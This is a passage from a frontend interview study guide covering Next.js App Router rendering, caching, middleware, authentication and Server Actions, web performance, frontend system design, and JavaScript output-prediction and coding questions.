| Direct DB / file system / secrets | ✅ | ❌ |
| `useState`, `useEffect`, other hooks | ❌ | ✅ |
| Event handlers (`onClick`) | ❌ | ✅ |
| Browser APIs (`window`, `localStorage`) | ❌ | ✅ |
| JS shipped to browser | **None** | Yes |
| Can import the other kind | Can render Client Components | Can only receive Server Components as `children`/props |

**Rule of thumb:**
- Use **Server Components** by default (better performance, less JS sent to browser, secure data access).
- Switch to **Client Components** only when you need: state/hooks, event handlers, browser APIs, or client-only libraries.
- Push `'use client'` **down to the leaves** (e.g. just the `AddToCartButton`, not the whole page).

```mermaid
flowchart TD
    subgraph Server["Server (never shipped to browser)"]
        L["layout.js (Server)"] --> P["page.js (Server): await db.getProduct()"]
        P --> INFO["ProductInfo (Server)"]
        P --> REV["Reviews (Server, inside Suspense)"]
    end
    subgraph Client["Client boundary ('use client') — JS sent + hydrated"]
        BTN["AddToCartButton: useState, onClick"]
        GAL["ImageGallery: carousel state"]
    end
    P --> BTN
    P --> GAL
    INFO -.->|"props must be serializable (no functions)"| BTN
```

**Interview traps:**
- `'use client'` marks a **boundary**: every module imported by that file becomes client code too.
- Props passed from Server → Client components must be **serializable** (no functions, class instances, Dates become strings…). Server Actions are the exception — they can be passed as props.
- A Client Component **can't import** a Server Component, but it can render one passed in as `children`.
- Server Components are **not** the same as SSR: SSR renders *any* component to HTML; RSC is a component type that *only* runs on the server and has zero client JS.
- Use the `server-only` package to guarantee server code (e.g. DB clients) is never imported into the client.

### 34.5 Data Fetching and Caching in the App Router ➕ Added

```jsx
// Server Component — fetch directly
export default async function Page() {
  // Static (cached) by default in Next 13/14; Next 15 changed the default to NOT cached
  const posts = await fetch('https://api.example.com/posts', {
    cache: 'force-cache',           // SSG-like
  }).then(r => r.json());

  const live = await fetch('https://api.example.com/stock', {
    cache: 'no-store',              // SSR-like: fresh every request
  }).then(r => r.json());

  const news = await fetch('https://api.example.com/news', {
    next: { revalidate: 60 },       // ISR-like: revalidate every 60s
  }).then(r => r.json());

  const tagged = await fetch('https://api.example.com/products', {
    next: { tags: ['products'] },   // for on-demand revalidateTag('products')
  }).then(r => r.json());
}

// Route-segment config
export const revalidate = 60;          // ISR for the whole page
export const dynamic = 'force-dynamic'; // always SSR

// Dynamic SSG paths (replaces getStaticPaths)
export async function generateStaticParams() {
  const posts = await getPosts();
  return posts.map(p => ({ slug: p.slug }));
}
```

| Pages Router | App Router equivalent |
|---|---|
| `getStaticProps` | `fetch(url, { cache: 'force-cache' })` / default static rendering |
| `getStaticProps` + `revalidate` | `fetch(url, { next: { revalidate: N } })` or `export const revalidate = N` |
| `getServerSideProps` | `fetch(url, { cache: 'no-store' })`, `cookies()`/`headers()`, or `dynamic = 'force-dynamic'` |
| `getStaticPaths` | `generateStaticParams()` |

**Avoid waterfalls:** start independent requests together.

```jsx
const [user, posts] = await Promise.all([getUser(id), getPosts(id)]);
```

> Next.js also **deduplicates** identical `fetch` calls within one render, so multiple components can request the same data without extra network calls. For non-`fetch` data (ORM calls), use React's `cache()`.

### 34.6 Streaming with Suspense

Instead of waiting for the entire page to render on the server, **send HTML in chunks** as each part becomes ready.

```
Without streaming: [Server renders ALL] → [Sends all HTML] → [Browser shows page]
With streaming:    [Send header] → [Send nav] → [Send hero] → [Send data-heavy section]
                   → Browser progressively shows content!
```

```jsx
import { Suspense } from 'react';

export default function Page() {
  return (
    <div>
      <h1>Dashboard</h1>  {/* sent immediately */}
      <Suspense fallback={<p>Loading chart...</p>}>
        <SlowChart /> {/* async Server Component — streams in when ready */}
      </Suspense>
    </div>
  );
}
```

In the Next.js App Router, `<Suspense>` boundaries become streaming boundaries automatically, and `loading.js` wraps the whole page segment in one.

```mermaid
sequenceDiagram
    participant B as Browser
    participant S as Next.js Server
    B->>S: GET /dashboard
    S-->>B: Chunk 1: layout, h1, fallback 'Loading chart...'
    Note over B: User already sees the page shell (fast FCP)
    S->>S: SlowChart awaits its data
    S-->>B: Chunk 2: SlowChart HTML + inline script to swap out the fallback
    Note over B: Chart appears, client parts hydrate (selective hydration)
```

**Benefits:** better TTFB/FCP, slow data doesn't block fast parts, and React can **selectively hydrate** whichever part the user interacts with first.

### 34.7 Middleware

Runs **before a request is completed** (at the edge, before routing/caching) — use for auth checks, redirects, rewrites, A/B testing, geolocation, i18n locale detection, logging, headers.

```tsx
// middleware.ts (at project root)
import { NextResponse } from 'next/server';

export function middleware(req) {
  const token = req.cookies.get('auth-token');

  if (!token && req.nextUrl.pathname.startsWith('/dashboard')) {
    return NextResponse.redirect(new URL('/login', req.url)); // needs an absolute URL
  }

  return NextResponse.next();
}

export const config = {
  matcher: ['/dashboard/:path*'], // Apply only to matched paths
};
```

> Middleware runs on the Edge runtime by default (limited Node APIs), so keep it fast — don't query the database there. Do a quick token check and leave full authorization to the server/data layer.

### 34.8 Authentication Pattern in Next.js

**Common approach — JWT in an httpOnly cookie** (see [23.5](#235-httponly-and-secure-cookies) and [23.6](#236-jwt-json-web-tokens)):

```jsx
// pages/api/login.js
export default async function handler(req, res) {
  const { email, password } = req.body;
  const user = await validateUser(email, password);
  if (!user) return res.status(401).json({ error: 'Invalid credentials' });

  const token = generateJWT(user);
  res.setHeader('Set-Cookie', `token=${token}; HttpOnly; Secure; Path=/; SameSite=Strict`);
  res.json({ success: true });
}

// middleware.ts — protect routes
const token = req.cookies.get('token');
if (!token) return NextResponse.redirect(new URL('/login', req.url));
```

```mermaid
sequenceDiagram
    participant U as Browser
    participant A as /api/login (or Server Action)
    participant M as Middleware
    participant P as Protected page / API
    U->>A: POST email + password
    A->>A: Validate credentials, sign JWT
    A-->>U: Set-Cookie: token (HttpOnly, Secure, SameSite)
    U->>M: GET /dashboard (cookie sent automatically)
    M->>M: Token present?
    alt No token
        M-->>U: Redirect to /login
    else Token present
        M->>P: Continue
        P->>P: Verify JWT signature + permissions
        P-->>U: Page / data
    end
```

**Alternative:** Use **NextAuth.js (Auth.js)** for OAuth providers, JWT/database sessions and session management; or hosted options like Clerk/Auth0.

### 34.9 Server Actions ➕ Added

**Simple definition:** Server Actions are `async` functions marked with `'use server'` that run **on the server** but can be called directly from components (forms, buttons). They replace many hand-written API routes for **mutations**.

```jsx
// app/actions.js
'use server';
import { revalidatePath } from 'next/cache';

export async function createPost(formData) {
  const title = formData.get('title');
  // ✅ Always validate + authorize here — it's a public endpoint
  if (!title) return { error: 'Title is required' };
  await db.post.create({ data: { title } });
  revalidatePath('/posts'); // refresh cached data for that page
}

// app/posts/new/page.js (Server Component)
import { createPost } from '../../actions';

export default function NewPost() {
  return (
    <form action={createPost}>       {/* works even before JS loads (progressive enhancement) */}
      <input name="title" />
      <button type="submit">Create</button>
    </form>
  );
}
```

**Pending UI in a Client Component:**

```jsx
'use client';
import { useFormStatus } from 'react-dom';

function SubmitButton() {
  const { pending } = useFormStatus();
  return <button disabled={pending}>{pending ? 'Saving...' : 'Save'}</button>;
}
```

| | Server Action | Route Handler / API route |
|---|---|---|
| Best for | Mutations from your own UI (forms) | Public APIs, webhooks, third-party clients |
| Called via | Function call / `<form action>` | HTTP request (`fetch`) |
| Revalidation | `revalidatePath` / `revalidateTag` built-in | Manual |

> **Security trap:** Server Actions are exposed as HTTP endpoints — always check authentication, authorization and validate input inside them.

### 34.10 Route Handlers (App Router API)

```js
// app/api/users/route.js
export async function GET(request) {
  const users = await db.user.findMany();
  return Response.json(users);
}

export async function POST(request) {
  const body = await request.json();
  const user = await db.user.create({ data: body });
  return Response.json(user, { status: 201 });
}

// app/api/users/[id]/route.js → params.id
```

---

## 35. Next.js Performance and Optimization

### 35.1 next/image: Automatic Image Optimization

```jsx
import Image from 'next/image';

<Image
  src="/hero.jpg"
  width={1200}
  height={600}
  alt="Hero"
  priority           // Preload LCP image (no lazy loading)
  placeholder="blur" // Show blur while loading
/>
```

**What it does automatically:** Resizes to the correct size per device (`srcset`), converts to WebP/AVIF, lazy loads by default, prevents CLS with fixed dimensions (or `fill` + a sized parent), and serves via an optimization endpoint/CDN.

> For the **LCP** image (hero), always set `priority` — otherwise it lazy loads and hurts LCP ([37.2](#372-lcp-largest-contentful-paint)). Remote images need `images.remotePatterns` in `next.config.js`.

### 35.2 next/dynamic: Lazy Load in Next.js

```jsx
import dynamic from 'next/dynamic';

const HeavyMap = dynamic(() => import('./HeavyMap'), {
  loading: () => <p>Loading map...</p>,
  ssr: false, // Don't render on server (useful for browser-only libs like Leaflet, charts)
});
```

> In the App Router, `ssr: false` is only allowed inside Client Components. Next.js already code-splits **every page/route automatically**; `next/dynamic` is for heavy components within a page.

### 35.3 Link Prefetching

`<Link>` automatically **prefetches** the linked route's code (and, for static routes, data) when the link enters the viewport (production only), so navigation feels instant. Disable with `prefetch={false}` for rarely used links.

### 35.4 Edge Rendering

**What it is:** Run server code at **CDN edge nodes** closest to the user (not a central server). The Edge runtime is a lightweight V8-isolate environment (Web APIs, limited Node APIs, fast cold starts).

```jsx
// pages/api/hello.js
export const config = { runtime: 'edge' }; // Runs at Vercel Edge

export default function handler(req) {
  return new Response('Hello from the edge!');
}

// App Router: export const runtime = 'edge'; in page.js / route.js
```

> Mumbai user → Edge node in Mumbai (~5ms) vs Central server in US (~200ms).

| | Node.js runtime | Edge runtime |
|---|---|---|
| Location | Region(s) | Many edge locations |
| Cold start | Slower | Very fast |
| APIs | Full Node.js (fs, native modules) | Web APIs subset |
| Best for | Heavy logic, DB with TCP drivers | Middleware, personalization, redirects, light APIs |

> Edge is fast only if your **data** is also close — an edge function querying a database in one US region still pays that latency.

### 35.5 Other Built-in Optimizations

- **`next/font`** — self-hosts Google/local fonts, removes layout shift with automatic `size-adjust`, no external network request.
- **`next/script`** — control third-party script loading: `strategy="afterInteractive" | "lazyOnload" | "beforeInteractive" | "worker"`.
- **Automatic static optimization** — pages without blocking data requirements are pre-rendered as static HTML.
- **Compression** — `compress: true` (default) gzips responses.
- **Bundle analysis** — `@next/bundle-analyzer` ([36.2](#362-bundle-analyzer)).
- **Turbopack** — faster dev builds (Rust-based bundler).

### 35.6 Next.js Performance Checklist

- [ ] Server Components by default; `'use client'` only at the leaves
- [ ] Static/ISR wherever data allows; SSR only where needed
- [ ] `<Suspense>`/`loading.js` around slow data to stream the rest
- [ ] Parallel data fetching (`Promise.all`), no request waterfalls
- [ ] `next/image` with `priority` for the LCP image and explicit sizes
- [ ] `next/font` for fonts, `next/script` for third-party scripts
- [ ] `next/dynamic` for heavy client-only widgets
- [ ] Analyze bundles, avoid large client-side dependencies
- [ ] Cache headers / CDN for static assets (automatic on Vercel)

---

# Part V — Performance, Architecture and System Design

---

## 36. Build and Bundle Optimization

### 36.1 Tree Shaking

**What it is:** Removing unused code (dead exports) from the final bundle during the build.

```jsx
// ❌ Imports entire lodash library (~70KB)
import _ from 'lodash';
_.debounce(fn, 300);

// ✅ Imports only debounce (~2KB) — tree shakeable
import debounce from 'lodash/debounce';
debounce(fn, 300);
// (or use lodash-es with named imports: import { debounce } from 'lodash-es')
```

> Works automatically with ES modules (`import/export`) because they are **static**. Doesn't work with CommonJS (`require`) — see [13.3](#133-commonjs-vs-esm). Side-effectful modules must be marked correctly (`"sideEffects": false` in `package.json`) for bundlers to drop them safely.

### 36.2 Bundle Analyzer

Visualize what's inside your JS bundle.

```bash
# Next.js
npm install @next/bundle-analyzer

# Run
ANALYZE=true next build
# Opens a visual treemap showing every module's size
```

> Use it to spot: accidentally imported large libraries (moment.js, full lodash, icon packs), duplicate packages (two versions of the same lib), and code that should be lazy-loaded. For Vite/Webpack: `rollup-plugin-visualizer`, `webpack-bundle-analyzer`.

### 36.3 Minification and Compression

```
Source file:  const myVariable = "hello world"; → 30 chars
Minified:     const a="hello world";             → 20 chars (variable renamed)
Gzip:         [binary compressed]                → ~10 chars
```

- **Minification:** Done by the bundler (Webpack/Terser, esbuild, SWC, Turbopack) at build time — removes whitespace/comments, shortens names, removes dead code.
- **Gzip/Brotli:** Done by the server/CDN when sending files. Brotli is ~15–20% smaller than Gzip.

> Enable in Next.js: `compress: true` in `next.config.js` (enabled by default).

### 36.4 Code Splitting Summary

| Technique | Where | Covered in |
|---|---|---|
| Route-based splitting | React Router + `React.lazy` | [27.10](#2710-lazy-loading-routes-code-splitting) |
| Component-based splitting | `React.lazy` + `Suspense` | [29.11](#2911-lazy-loading-and-code-splitting) |
| Automatic per-page splitting | Next.js | [35.2](#352-nextdynamic-lazy-load-in-nextjs) |
| Dynamic `import()` | Any ESM code | [13.2](#132-es-modules-esm) |

---

## 37. Core Web Vitals and Performance Budget

### 37.1 Core Web Vitals (Google Ranking Factors)

| Metric | What it measures | Good | Poor |
|---|---|---|---|
| **LCP** (Largest Contentful Paint) | Loading performance — time until the largest visible element renders | < 2.5s | > 4s |
| **INP** (Interaction to Next Paint) — replaced FID in March 2024 | Interactivity / responsiveness to user input | < 200ms | > 500ms |
| **CLS** (Cumulative Layout Shift) | Visual stability — how much content jumps | < 0.1 | > 0.25 |

Other useful metrics: **TTFB** (Time to First Byte), **FCP** (First Contentful Paint), **TTI** (Time to Interactive), **TBT** (Total Blocking Time). Measure with Lighthouse (lab), PageSpeed Insights / Chrome UX Report (field), and the `web-vitals` library.

### 37.2 LCP: Largest Contentful Paint

**What it is:** Time until the **largest visible element** (hero image, headline, video poster) is fully rendered. **Target: under 2.5 seconds.**

```jsx
// Optimize LCP image with priority preload
<Image src="/hero.jpg" priority width={1200} height={600} alt="Hero" />
```

**Optimization strategies:**
- Preload hero images: `<link rel="preload" as="image" href="hero.webp">` (or `priority` in `next/image`)
- **Don't lazy-load** the LCP image
- Use a CDN for static assets
- SSR/SSG for faster initial HTML (CSR delays LCP until JS runs)
- Reduce server response time (TTFB) — caching, edge
- Remove render-blocking CSS/JS; inline critical CSS
- Modern image formats (WebP/AVIF) and correct sizes

### 37.3 CLS: Cumulative Layout Shift

**What it is:** Measures how much elements **jump around** during page load (e.g. an image loads and pushes text down, an ad is injected). **Score:** 0 is perfect, < 0.1 is good.

```jsx
// ❌ Bad — image has no size, causes layout shift


// ✅ Good — reserve space before image loads

// Or use next/image which handles this automatically
// Or CSS: aspect-ratio: 16 / 9;
```

**Optimization strategies:**
- Always set `width` and `height` (or `aspect-ratio`) on images/videos/iframes
- Don't inject content above existing content (banners, ads) — reserve space
- Use skeleton loaders that match content size ([31.1](#311-skeleton-loader-pattern))
- Fonts: `font-display: swap` with a size-matched fallback font (`next/font` does this)
- Animate with `transform`, not `top`/`height`

### 37.4 INP / FID: Interactivity

**Optimization strategies:**
- Break up long tasks (> 50ms) with `scheduler.yield()`, `setTimeout`, or chunking
- Use Web Workers for heavy computation ([21.6](#216-web-workers))
- Virtualize long lists ([29.10](#2910-virtualization-for-large-lists))
- `useTransition` / `useDeferredValue` for non-urgent updates ([26.5](#265-usetransition-mark-low-priority-updates))
- Ship less JavaScript (code splitting, Server Components), reduce hydration cost
- Debounce/throttle expensive handlers

### 37.5 Performance Budget

A **performance budget** is a limit the team agrees not to exceed, enforced in CI (Lighthouse CI, bundlesize).

| Budget type | Example |
|---|---|
| Metric-based | LCP < 2.5s, INP < 200ms, CLS < 0.1 on a mid-range phone/4G |
| Size-based | Initial JS < 170KB gzipped, total page weight < 1MB |
| Count-based | < 50 requests, < 3 third-party scripts |

---

## 38. Frontend Architecture and System Design

### 38.1 How to Approach a Frontend System Design Question

**Framework (use this structure in interviews):**

```
1. Clarify requirements (2 min)
   - Who uses it? Scale? Mobile/desktop?
   - Core features vs nice-to-have?

2. High-level component architecture (5 min)
   - Page/route structure
   - Core components and their relationships
   - Data flow direction

3. Data management (5 min)
   - What state is local vs global?
   - API design? REST or GraphQL?
   - Caching strategy?

4. Performance (3 min)
   - Code splitting? Lazy loading?
   - Image optimization?
   - SSR vs CSR vs SSG?

5. Scalability & maintainability (3 min)
   - Folder structure
   - Design system / component library?
   - Testing strategy?

6. Security & accessibility (2 min)
```

> Many interviewers use the **RADIO** framework: **R**equirements → **A**rchitecture → **D**ata model → **I**nterface (API) → **O**ptimizations. It maps directly to the steps above.

### 38.2 Frontend Application Architecture

```mermaid
flowchart TD
    U["User / Browser"] --> CDN["CDN / Edge (static assets, cached HTML, middleware)"]
    CDN --> APP["Next.js / React App"]
    subgraph APP_LAYERS["Application layers"]
        UI["UI layer: pages, layouts, components (design system)"]
        ST["State layer: local state, Context/Zustand/Redux, URL state"]
        DATA["Data layer: React Query / SWR / RSC fetch, API client"]
        UI --> ST
        UI --> DATA
    end
    APP --> APP_LAYERS
    DATA --> BFF["API / BFF (Route Handlers, Server Actions, GraphQL)"]
    BFF --> SVC["Backend services + Database"]
    DATA -.->|"real-time"| WS["WebSocket / SSE"]
    APP --> OBS["Monitoring: Web Vitals, error tracking (Sentry), analytics"]
```

### 38.3 Design a Large-Scale React App Structure

```
src/
├── app/                    # App-level setup
│   ├── store.ts            # Redux/Zustand store
│   ├── router.tsx          # Route definitions
│   └── App.tsx
│
├── features/               # Feature-based modules (recommended)
│   ├── auth/
│   │   ├── components/     # UI components for this feature
│   │   ├── hooks/          # Custom hooks
│   │   ├── api.ts          # API calls
│   │   ├── slice.ts        # Redux slice or Zustand store
│   │   └── types.ts        # TypeScript types
│   ├── dashboard/
│   └── users/
│
├── shared/                 # Shared across features
│   ├── components/         # Button, Input, Modal, etc.
│   ├── hooks/              # useDebounce, useFetch, etc.
│   ├── utils/              # formatDate, parseQuery, etc.
│   └── types/              # Global TS types
│
├── pages/                  # Route-level page components
└── styles/                 # Global styles, design tokens
```

**Why feature-based over type-based?**
- `features/users/` has everything for users in one place
- vs scattered `components/UserCard`, `hooks/useUsers`, `api/users` — harder to navigate
- Features can be owned by teams, deleted or extracted cleanly; enforce "features don't import each other's internals" (expose a public `index.ts`).

### 38.4 Component Architecture Design

```
Page (route-level, data fetching)
  └── Container/Smart Component (handles state, passes data down)
        └── Presentational/Dumb Component (stateless, just renders props)
              └── Atomic Components (Button, Input, Icon)
```

**Rules:**
- Push state up only as far as needed (co-locate state)
- Presentational components are easy to test and reuse
- Smart components handle data fetching, side effects
- Use compound components for complex UI (Tabs, Accordion, Select) — see [26.11](#2611-component-patterns-hoc-render-props-compound-components)

> In the Next.js App Router, this maps naturally to **Server Components** (data/containers) and **Client Components** (interactive leaves).

### 38.5 Design a News Feed (like Twitter/Facebook)

**Requirements:** Real-time feed, infinite scroll, post creation, likes/comments.

**Architecture decisions:**

```
State management:
  - Feed posts → React Query (server state, caching)
  - UI state (modal open, active tab) → useState
  - Auth user → Context or Redux

Data fetching:
  - Initial load: SSR for SEO (getServerSideProps / Server Components)
  - Infinite scroll: React Query with cursor-based pagination
  - Real-time new posts: WebSocket or SSE

Performance:
  - Virtualize the feed (react-window) — don't render 1000 posts
  - Optimistic updates for likes/comments
  - Debounce post content autosave
  - Lazy-load images/videos in posts

Component structure:
  FeedPage
    ├── CreatePostBox
    ├── FeedList (virtualized)
    │     └── PostCard
    │           ├── PostHeader (avatar, name, time)
    │           ├── PostContent (text, images)
    │           └── PostActions (like, comment, share)
    └── NewPostsNotification ("5 new posts" banner)
```

```mermaid
sequenceDiagram
    participant U as User
    participant F as FeedList (React Query)
    participant API as Feed API
    participant WS as WebSocket / SSE
    U->>F: Open feed
    F->>API: GET /feed?cursor=null&limit=20
    API-->>F: posts + nextCursor
    U->>F: Scroll near bottom (IntersectionObserver)
    F->>API: GET /feed?cursor=abc&limit=20
    API-->>F: next page
    WS-->>F: new_post event
    F-->>U: Show "5 new posts" banner (don't jump the scroll position)
    U->>F: Click Like
    F-->>U: Optimistic +1 immediately
    F->>API: POST /posts/42/like
    API-->>F: OK (or error → roll back)
```

### 38.6 Design an E-Commerce Product Page

```
Performance priorities:
  - LCP (Largest Contentful Paint): product image must load fast
    → Preload hero image, next/image with priority, WebP format
  - CLS (Cumulative Layout Shift): reserve space for images
    → Always set width/height on images
  - TTI (Time to Interactive): JS bundle size
    → Code split: lazy load reviews, recommendations

Caching strategy:
  - Product data → ISR (revalidate every 5 min)
  - Inventory/price → SSR or client fetch (always fresh — can't cache stock levels)
  - Reviews → SSG + pagination

State:
  - Selected variant (size, color) → useState (local) or URL param (shareable)
  - Cart → Zustand or Redux (global, persisted to localStorage)
  - Wishlist → Zustand + synced to backend

Component tree:
  ProductPage
    ├── ImageGallery (lazy load non-hero images)
    ├── ProductInfo
    │     ├── VariantSelector
    │     └── AddToCartButton (optimistic UI)
    ├── Tabs (lazy loaded)
    │     ├── Description
    │     ├── Specifications
    │     └── Reviews (infinite scroll)
    └── RecommendedProducts (lazy loaded, below fold)
```

**SEO extras:** structured data (JSON-LD `Product` schema), `generateMetadata` with Open Graph tags, canonical URLs for variants.

### 38.7 Micro-Frontends

Split a large application into **independently deployable frontend modules**, each owned by a different team.

```
Shell App (orchestrator)
  ├── /checkout  → Checkout Team's app
  ├── /profile   → Profile Team's app
  └── /catalog   → Catalog Team's app
```

```mermaid
flowchart TD
    SHELL["Shell / Host app: routing, auth, shared layout"] --> C["Checkout MFE (Team A, deployed separately)"]
    SHELL --> P["Profile MFE (Team B)"]
    SHELL --> CAT["Catalog MFE (Team C)"]
    DS["Shared design system + shared deps (React as singleton)"] -.-> C
    DS -.-> P
    DS -.-> CAT
```

**Implementation approaches:**
- **Module Federation** (Webpack 5 / Rspack) — load remote JS modules at runtime, share dependencies
- **iframes** — complete isolation, but UX limitations (routing, styling, communication)
- **Web Components** — framework-agnostic, native browser support
- **Multi-zones / route-level split** (e.g. Next.js multi-zones) — different apps per URL path

**Trade-offs:**
- ✅ Independent deployments, team autonomy, technology diversity, incremental migration of legacy apps
- ❌ Bundle duplication, shared state complexity, consistent UX harder, more operational overhead

> Only worth it for **large orgs with many teams**. For one or two teams, a well-structured monorepo is simpler.

### 38.8 Monorepo Structure (Nx / Turborepo)

```
monorepo/
├── apps/
│   ├── web/           # Main React app
│   ├── admin/         # Admin dashboard
│   └── mobile/        # React Native
├── packages/
│   ├── ui/            # Shared component library
│   ├── utils/         # Shared utilities
│   ├── api-client/    # Shared API types/client
│   └── config/        # Shared ESLint, TS config
└── package.json
```

**Benefits:** Share code between apps, single lint/test/build pipeline, atomic commits across apps, consistent tooling. Tools like Turborepo/Nx add **task caching** and only rebuild what changed.

| | Monorepo | Micro-frontends |
|---|---|---|
| Code location | One repo | Often many repos |
| Deployment | Can be together or separate | Independent per MFE |
| Runtime integration | Build-time | Runtime |
| Complexity | Lower | Higher |

### 38.9 Design System Architecture

```
Design Tokens (source of truth: colors, spacing, typography)
  ↓
Primitive/Atomic Components (Button, Input, Badge, Icon)
  ↓
Composite Components (Form, Card, Modal, DataTable)
  ↓
Page Templates (DashboardLayout, AuthLayout)
  ↓
Pages
```

```css
/* Design tokens as CSS variables */
:root {
  --color-primary-500: #3B82F6;
  --color-primary-600: #2563EB;
  --spacing-2: 0.5rem;
  --spacing-4: 1rem;
  --radius-md: 0.375rem;
  --font-size-base: 1rem;
  --shadow-md: 0 4px 6px -1px rgba(0,0,0,0.1);
}

/* Component uses tokens, not hard-coded values */
.button {
  background: var(--color-primary-500);
  padding: var(--spacing-2) var(--spacing-4);
  border-radius: var(--radius-md);
}
```

**Good design systems include:** tokens (themeable, dark mode), accessible primitives (keyboard, ARIA, focus management — or built on Radix/React Aria), documentation (Storybook), visual regression tests, versioning (semver) and a changelog.

### 38.10 Testing Strategy (Testing Pyramid)

```
         /\
        /E2E\       ← Few, slow, expensive (Cypress, Playwright)
       /------\
      / Integr \    ← Some (React Testing Library)
     /----------\
    /    Unit    \  ← Many, fast, cheap (Jest, Vitest)
   /--------------\
```

```js
// Unit test — isolated function
test('formatCurrency formats numbers correctly', () => {
  expect(formatCurrency(1000)).toBe('$1,000.00');
  expect(formatCurrency(-50)).toBe('-$50.00');
});

// Integration test — component with interactions
test('login form submits correctly', async () => {
  render(<LoginForm onLogin={mockLogin} />);
  await userEvent.type(screen.getByLabelText('Email'), 'alice@example.com');
  await userEvent.type(screen.getByLabelText('Password'), 'password123');
  await userEvent.click(screen.getByRole('button', { name: 'Login' }));
  expect(mockLogin).toHaveBeenCalledWith({ email: 'alice@example.com', password: 'password123' });
});

// E2E test — full user flow
test('user can log in and see dashboard', async ({ page }) => {
  await page.goto('/login');
  await page.fill('[name=email]', 'alice@example.com');
  await page.fill('[name=password]', 'password123');
  await page.click('button[type=submit]');
  await expect(page).toHaveURL('/dashboard');
  await expect(page.locator('h1')).toContainText('Welcome, Alice');
});
```

> **React Testing Library philosophy:** test behavior the way users see it (roles, labels, text), not implementation details (state, class names). Mock the network with **MSW**. Many teams prefer the "testing trophy" (more integration tests) over a strict pyramid.

### 38.11 Interview Quick-Reference: Key Trade-offs

| Decision | Option A | Option B | Choose A when | Choose B when |
|---|---|---|---|---|
| Rendering | CSR | SSR/SSG | Auth dashboard | SEO-critical pages |
| State | Context | Redux | Small app | Complex/large app |
| Data fetching | useEffect | React Query | Simple, one-off | Caching, sync needed |
| Routing | React Router | Next.js | SPA | SEO + server features |
| Styling | CSS Modules | Tailwind | Complex custom styles | Rapid UI development |
| Auth tokens | localStorage | httpOnly cookie | Simplicity | Security |
| API style | REST | GraphQL | Simple CRUD, HTTP caching | Many clients, nested data, avoid over-fetching |
| Real-time | SSE | WebSocket | Server → client only | Bi-directional |
| Pagination | Offset | Cursor | Tables, jump to page | Feeds, infinite scroll |
| Architecture | Monorepo | Micro-frontends | One or few teams | Many independent teams |

> *Remember: interviewers want to see your **reasoning and trade-off thinking**, not just the right answer.*

---

# Part VI — Interview Questions and Quick Revision

---

## 39. JavaScript Interview Questions and Coding Problems

### 39.1 Output Prediction Questions

**Q1: What is the output?**

```js
console.log(1);
setTimeout(() => console.log(2), 0);
Promise.resolve().then(() => console.log(3));
console.log(4);
```

**Answer:** `1, 4, 3, 2` — Sync → microtasks (Promise) → macrotasks (setTimeout). See [11.4](#114-example-1--basic-order).

---

**Q2: What is the output?**

```js
for (var i = 0; i < 3; i++) {
  setTimeout(() => console.log(i), 0);
}
```

**Answer:** `3, 3, 3` — `var` is function-scoped, so all callbacks share one `i`, which is 3 when they run. Fix: use `let` or an IIFE ([3.5](#35-closures)).

---

**Q3: Quick output predictions**

```js
// Hoisting
console.log(typeof foo); // "function" (function declaration hoisted)
console.log(typeof bar); // "undefined" (var hoisted as undefined)
function foo() {}
var bar = function() {};

// Closure + var
var fns = [];
for (var i = 0; i < 3; i++) fns.push(() => i);
fns.map(f => f()); // [3, 3, 3]

// Promise + async
async function main() {
  console.log("A");
  await null;
  console.log("B");
}
main();
console.log("C");
// Output: A, C, B

// typeof chain
console.log(typeof typeof 1); // "string" (typeof 1 = "number", typeof "number" = "string")

// Short circuit
console.log(null || undefined || 0 || "" || "found!"); // "found!"
console.log(1 && 2 && 3);  // 3
console.log(1 && 0 && 3);  // 0
```

---

**Q4: What does this print?**

```js
const obj = {
  name: "Abhi",
  regular() { return this.name; },
  arrow: () => this?.name,
};
console.log(obj.regular()); // "Abhi"
console.log(obj.arrow());   // undefined — arrow takes `this` from module/global scope
const f = obj.regular;
console.log(f());           // undefined (strict) — `this` lost
```

---

**Q5: Coercion quick-fire**

```js
[] + []        // ""          (both become "")
[] + {}        // "[object Object]"
"5" - 2        // 3
"5" + 2        // "52"
true + true    // 2
[] == false    // true  ([] → "" → 0, false → 0)
null == 0      // false
NaN === NaN    // false
0.1 + 0.2 === 0.3 // false
```

### 39.2 Coding Problems (Implement from Scratch)

| # | Problem | Solution location |
|---|---|---|
| 1 | Implement `Promise.all` | [10.3](#103-promise-combinators) |
| 2 | Implement `debounce` (and `throttle`) | [19.6](#196-debounce-and-throttle) |
| 3 | Implement memoization | [14.5](#145-memoization) |
| 4 | Implement `bind` | [5.2](#52-call-apply-bind) |
| 5 | Deep clone without JSON | [6.11](#611-shallow-vs-deep-copy) |
| 6 | Implement `curry` | [14.2](#142-currying) |
| 7 | Implement an EventEmitter | [15.3](#153-observer--pubsub-pattern) |
| 8 | Implement `new` | [6.8](#68-what-new-does-internally) |
| 9 | `compose` / `pipe` | [14.4](#144-function-composition) |

**Flatten a nested array:**

```js
// Built-in
[1, [2, [3, [4]]]].flat(Infinity); // [1,2,3,4]

// Recursive
function flatten(arr) {
  return arr.reduce((acc, item) =>
    Array.isArray(item) ? acc.concat(flatten(item)) : [...acc, item], []);
}

// Stack-based (iterative)
function flattenIterative(arr) {
  const stack = [...arr];
  const result = [];
  while (stack.length) {
    const item = stack.pop();
    if (Array.isArray(item)) stack.push(...item);
    else result.unshift(item);   // (push + reverse at the end is O(n) instead)
  }
  return result;
}
```

**Promise-based sleep and retry (common follow-ups) ➕:**

```js
const sleep = (ms) => new Promise(res => setTimeout(res, ms));

async function retry(fn, retries = 3, delay = 500) {
  try {
    return await fn();
  } catch (err) {
    if (retries === 0) throw err;
    await sleep(delay);
    return retry(fn, retries - 1, delay * 2); // exponential backoff
  }
}
```

### 39.3 Conceptual Questions with Answers

**Q: What is a closure? Give a real-world example.**
A function bundled with its lexical environment — it keeps access to outer variables after the outer function returns. Examples: private counters, `createMultiplier(2)`, memoize caches, debounce timers, React hooks' state captured in handlers. See [3.5](#35-closures).

**Q: What is the difference between `==` and `===`?**
`==` performs **type coercion** before comparing; `===` checks value AND type without coercion. Always prefer `===`. Special cases: `null == undefined` is `true`, `NaN` is never equal to anything. See [2.6](#26--vs-).

**Q: Explain the prototype chain.**
Every object has a hidden `[[Prototype]]` link. Property lookup checks the object, then its prototype, and so on up to `Object.prototype`, whose prototype is `null`. Classes are syntax sugar over this. See [6.6](#66-prototype-chain-prototypal-inheritance).

**Q: Difference between `null` and `undefined`?**
- `undefined` = variable declared but not assigned (set by JS)
- `null` = intentionally empty value (set by developer)
- `typeof null === "object"` (historical bug)
- `null == undefined` is `true`, `null === undefined` is `false`

**Q: What is event delegation and why use it?**

```js
// Instead of attaching listeners to each item:
